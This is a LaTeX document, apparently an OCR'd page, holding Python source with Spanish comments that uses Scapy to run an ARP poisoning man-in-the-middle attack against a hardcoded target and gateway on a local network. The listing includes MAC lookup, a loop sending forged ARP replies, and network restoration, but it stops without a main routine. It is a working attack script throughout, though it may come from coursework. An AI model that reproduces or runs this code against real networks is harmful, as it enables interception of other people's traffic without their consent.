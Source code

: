 \documentclass[a4paper, 13pt]{article}
\begin{document}
	\begin{lstlisting}
	from scapy.all import *
	import os
	import signal
	import sys
	import threading
	import time
	
	#Parametros del programa
	gateway_ip = "192.168.0.1"
	target_ip = "192.168.0.104"
	packet_count = 0
	interface = "wlp2s0"
	
	#Configuracion inicial
	conf.iface = interface
	conf.verb = 0
	
	#Descripcion: Dada una direccion IP, obtiene la direccion MAC. Lo que hace es hacer un ARP Broadcast
	#y recibe una respuesta ARP con la direccion MAC.
	#Entrada:   Direccion IP
	#Salida:    Direccion MAC
	def get_mac(ip_address):
		#Armo una request de tipo ARP. Esta request se la paso a la funcion sr, que lo que hace es enviar y recibir paquetes
		#de capa 3
		ret = None
		resp, unans = sr(ARP(op=1, hwdst="ff:ff:ff:ff:ff:ff", pdst=ip_address), retry=2, timeout=10)
		
		for s,r in resp:
			print("entre")
			if(ret == None):
				ret =  r[ARP].hwsrc
		return ret
	
	
	#Restaura la red revirtiendo el envenenamiento de ARP. Lo que hace es Hacer un broadcast ARP con la 
	#direccion MAC e IP correctas.
	#Entradas:  Direccion IP del gateway, Direccion MAC del gateway, Direccion IP del objetivo, Direccion MAC del objetivo
	#Salida:    void 
	def restore_network(gateway_ip, gateway_mac, target_ip, target_mac):
		send(ARP(op=2, hwdst="ff:ff:ff:ff:ff:ff", pdst=gateway_ip, hwsrc=target_mac, psrc=target_ip), count=5)
		send(ARP(op=2, hwdst="ff:ff:ff:ff:ff:ff", pdst=target_ip, hwsrc=gateway_mac, psrc=gateway_ip), count=5)
		print("[*] Deshabilitando IP forwarding")
		#Deshabilito el redireccionamiento de red de la pc mia.
		os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
		#mato el proceso del script
		os.kill(os.getpid(), signal.SIGTERM)
	
	#Sigo enviando respuestas de ARP falsas para poner mi pc en el medio.
	#Entrada:   Direccion IP del gateway, Direccion MAC del gateway, Direccion IP del objetivo, Direccion MAC del objetivo
	#Salida:    void
	def arp_poison(gateway_ip, gateway_mac, target_ip, target_mac):
		print("[*] Empezado el ataque ARP poisoning [CTRL-C para parar]")
		try:
			while True:
				send(ARP(op=2, pdst=gateway_ip, hwdst=gateway_mac, psrc=target_ip))
				send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=gateway_ip))
				time.sleep(2)
		except KeyboardInterrupt:
			print("[*] Se detuvo el ataque ARP poison. Restaurando la red...")
			restore_network(gateway_ip, gateway_mac, target_ip, target_mac)
	

\end{lstlisting}
\end{document}
